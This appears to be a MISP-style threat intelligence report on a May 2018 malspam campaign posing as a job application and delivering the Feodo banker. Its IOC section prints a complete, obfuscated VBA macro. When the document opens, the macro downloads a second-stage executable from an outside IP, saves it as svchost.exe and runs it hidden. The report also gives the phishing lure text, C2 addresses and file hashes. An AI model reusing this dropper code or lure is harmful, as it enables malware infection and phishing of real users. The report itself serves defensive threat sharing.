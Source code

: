 # Threat Report: 2018-05-25: Malspam 2018-05-25: "Regarding a job."


## Key Intelligence
* Date: 2018-05-25
* Threat Level: 3 (Low)
* Tags: misp-galaxy:banker="Feodo", tlp:white, circl:incident-classification="malware"

---

## Indicators of Compromise (IOCs)
### Artifacts dropped
* text: Rem Attribute VBA_ModuleType=VBADocumentModule
Option VBASupport 1
Private Sub Document_Open()

Dim WinHttpReq As Object
Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
    
WinHttpReq.Open "GET", "http://185.189.58.180/~filehost/background.png", False, "username", "password"
WinHttpReq.send

Dim first5 As String
    Dim second5 As String
    Dim last5 As String
    first5 = ChrW(65) & ChrW(68) & ChrW(79) & ChrW(68) & ChrW(66) & ChrW(46) & ChrW(83) & ChrW(116) & ChrW(114) & ChrW(101)
    second5 = ChrW(97) & ChrW(109)
    last5 = first5 + second5

xyuhjnx = WinHttpReq.responseBody
If WinHttpReq.Status = 200 Then
    Set oStream = CreateObject(last5)
    oStream.Open
    oStream.Type = Val("1FFF")
    oStream.Write WinHttpReq.responseBody
    
    Dim first6 As String
    Dim last6 As String
    first6 = ChrW(92) & ChrW(99) & ChrW(104) & ChrW(101) & ChrW(99) & ChrW(107) & ChrW(46) & ChrW(101) & ChrW(120) & ChrW(101)
    last6 = first6
    
    oStream.SaveToFile Environ("Temp") + "\svchost.exe", Val("2FFF")
    oStream.Close
    
End If
 
Call Shell(Environ("Temp") + "\svchost.exe", 0)

MsgBox "The operating system you are using does not support secured documents. Please re-open the document on a different computer. The Microsoft Word will exit now."

ActiveDocument.Close

End Sub — contained macro

### Network activity
* url: http://185.189.58.180/~filehost/background.png — 2nd stage location
* ip-dst: 185.189.58.180 — 2nd stage location
* url: http://80.82.115.164:4143/ — POST
* url: http://213.108.33.44/ — POST
* url: http://27.254.150.53:4143/ — POST
* url: http://189.51.144.3/ — POST
* url: http://159.203.94.198:4143/ — POST
* url: http://178.62.39.238:443/ — POST
* url: http://178.62.253.139:4143/ — POST
* url: http://52.4.64.240:4143/ — POST
* url: http://186.103.199.252:4143/ — POST
* url: http://71.244.60.231:4143/ — POST
* url: http://84.200.208.98/ — POST
* ip-dst|port: 80.82.115.164|4143 — C2 On port 4143
* ip-dst: 213.108.33.44 — C2
* ip-dst|port: 27.254.150.53|4143 — C2 On port 4143
* ip-dst: 189.51.144.3 — C2
* ip-dst|port: 159.203.94.198|4143 — C2 On port 4143
* ip-dst|port: 178.62.39.238|443 — C2 On port 443
* ip-dst|port: 178.62.253.139|4143 — C2 On port 4143
* ip-dst|port: 52.4.64.240|4143 — C2 On port 4143
* ip-dst|port: 71.244.60.231|4143 — C2 On port 4143
* ip-dst|port: 186.103.199.252|4143 — C2 On port 4143
* ip-dst: 84.200.208.98 — C2

### Payload delivery
* email-body: Hello there! I hope you are well! 

I'm very interested in a opening.
See my attached CV and get back to me as soon as possible!

The file is password protected to protect against identity theft. The password is "resume" 
Thank you! 

Herschel

## Objects
### file — File object describing a file with meta-information
* [Payload delivery] malware-sample: scan_38917.doc|fc3a527586746a950d51e0041f09266a
* [Payload delivery] filename: scan_38917.doc
* [Payload delivery] md5: <md5>
* [Payload delivery] sha1: <sha1>
* [Payload delivery] sha256: <sha256>
* [Other] size-in-bytes: 37888

### file — File object describing a file with meta-information
* [Payload delivery] malware-sample: background.png|e766226346f8d0b097ac7c87edbf605a
* [Payload delivery] filename: background.png
* [Payload delivery] md5: <md5>
* [Payload delivery] sha1: <sha1>
* [Payload delivery] sha256: <sha256>
* [Other] size-in-bytes: 53575

### virustotal-report — VirusTotal report
* _No attributes_
